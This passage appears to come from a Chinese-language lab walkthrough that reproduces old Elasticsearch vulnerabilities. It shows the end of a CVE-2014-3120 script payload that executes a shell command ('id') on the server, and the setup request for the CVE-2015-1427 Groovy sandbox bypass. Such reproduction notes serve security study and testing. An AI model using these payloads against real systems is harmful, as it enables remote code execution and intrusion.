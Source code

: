 ```
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

![image](img/cve-2014-3120-2.png)

#### CVE-2015-1427

ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

![image](img/cve-2015-1427-1.png)
